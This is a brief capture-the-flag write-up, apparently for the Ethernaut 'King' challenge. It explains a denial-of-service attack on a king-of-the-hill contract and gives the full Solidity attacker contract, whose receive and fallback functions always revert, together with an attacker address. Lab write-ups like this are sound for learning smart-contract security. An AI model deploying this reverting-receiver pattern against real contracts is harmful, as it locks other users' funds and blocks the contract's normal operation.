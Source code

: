 # King

The ponzi starts with 0.001 ether. We can exploit the game by giving a larger ether, but via a contract that disallows receiving ether. This way, if someone puts more money the game will revert as they can't send our money back. As such, we become the king. In this game particular, the owner is allowed to reclaim the kings throne but even they can't do it for the same reason!

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;
 
contract Attack { 
 
    receive() external payable {
        revert();
    }
    fallback() external payable {
        revert();
    }

}
```

(see '0x42e9167d17F22998FA824f02bf8F62Cc28403395' my attacker)


todo